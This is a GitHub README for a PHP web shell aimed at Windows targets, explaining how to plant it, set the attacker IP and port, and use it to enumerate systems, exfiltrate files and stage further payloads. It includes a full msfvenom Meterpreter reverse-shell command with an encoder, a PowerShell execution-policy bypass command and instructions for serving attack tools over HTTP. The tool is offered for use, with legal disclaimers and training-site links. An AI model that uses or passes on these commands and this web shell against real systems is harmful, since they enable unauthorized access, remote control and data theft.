 [![Actively Maintained](https://img.shields.io/badge/Maintenance%20Level-Actively%20Maintained-green.svg)](https://gist.github.com/cheerfulstoic/d107229326a01ff0f333a1d3476e068d)
# The Not-So Simple PHP Command Shell
![Logo](/img/nsscmdshell.jpg)
## Foreword:
> Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. The following websites provide training resources and practice scenarios and are excellent resources for learning such skills:

* https://www.hackthebox.eu/
* https://tryhackme.com/

Automates or simplifies many on target functions. Designed for windows targets. See it in action at https://kdgwebsolutions.com/assets/img/videos/proof-of-concept-for-learning-management-system-exploits.mp4. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:

venom.exe : `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe`

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif)

## Automates or simplifies many on target enumeration functions. Including:

* Simple system commands
* File upload/download options
* simple user manipulations (on compatible targets with sufficient privileges)
* One click user info/ user permissions info
* One click systeminfo
* One Click processes list
* One click file cleanup removes all files uploaded with this tool

## How to use it

First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:

`$attackip = "10.0.2.6";`

`$attackport = "8000";`

Now get "nsscmdshell.php" onto the target < - DISCLAIMER (in a manner consistent with applicable laws - and within scope of a written contract where required) - >.

Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png)

###### The upload and download options are self explanatory, but just to avoid any confusion:

If using the select field, choose your file and click "upload". Files linked in the select field options need to be present at the web root at the ip address and port in lines 10 and 11 of nsscmdshell.php.<sup>1</sup>

If using the open file dialog option, only files present at the ip address and port specified can be uploaded.

For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.

Example usage: run jaws-enum.ps1 - output to jaws.txt `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt`, then download the output file to your attack machine for later close examination.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png)

The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png)

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?
 Two possible causes:
1. You didn't set the variables, `$attackip` and `$attackport` to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.
2. The files are not available on the defined server or port, or there is no server running on the defined port. Fix: `python3 -m http.server XXXX` in a directory containing the files you're attempting to upload.

### Footnotes:
<sup>1</sup> I generally cd into my "windowstools" folder and start a simple http server:
`cd windowstools`
`python3 -m http.server 8000`.
![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png)
![Hack The Box](http://www.hackthebox.eu/badge/image/476578)
